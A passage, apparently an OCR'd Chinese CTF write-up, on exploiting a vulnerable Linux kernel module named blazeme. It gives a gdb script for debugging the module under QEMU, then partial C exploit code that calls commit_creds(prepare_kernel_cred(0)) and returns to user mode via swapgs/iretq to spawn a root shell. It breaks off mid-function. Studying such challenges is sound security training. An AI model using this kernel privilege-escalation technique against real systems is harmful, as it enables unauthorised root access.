编写gdb调试脚本gdbsc 如下
```sh
set architecture i386:x86-64:intel
target remote :1234
add-symbol-file blazeme.ko 0xffffffffc0000000
file vmlinux
b *blaze_write
```
`gdb -x ./gdbsc` 开启gdb

下断点 




```
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

static void shell();
static void kernel_payload();

int __attribute__((regparm(3))) (*commit_creds)(unsigned long cred);
unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred)(unsigned long cred);

static void escalate_privs() { commit_creds(prepare_kernel_cred(0)); }

unsigned long user_cs;
unsigned long user_ss;
unsigned long user_rflags;

static void save_state() {
  asm volatile(
      "movq %%cs, %0\n"
      "movq %%ss, %1\n"
      "pushfq\n"
      "popq %2\n"
      : "=r"(user_cs), "=r"(user_ss), "=r"(user_rflags)
      :
      : "memory");
}

static void restore_state() {
  asm volatile(
      "swapgs ;"
      "movq %0, 0x20(%%rsp)\t\n" // user_ss
      "movq %1, 0x18(%%rsp)\t\n" // fake_stack
      "movq %2, 0x10(%%rsp)\t\n" // eflags
      "movq %3, 0x08(%%rsp)\t\n" // user_cs
      "movq %4, 0x00(%%rsp)\t\n" // shell_addr
      "iretq"
      :
      : "r"(user_ss), "r"((unsigned long)0x1740000), "r"(user_rflags), "r"(user_cs), "r"(shell));
}


static void kernel_payload() {
  escalate_privs();
  restore_state();
}

static void shell() {
```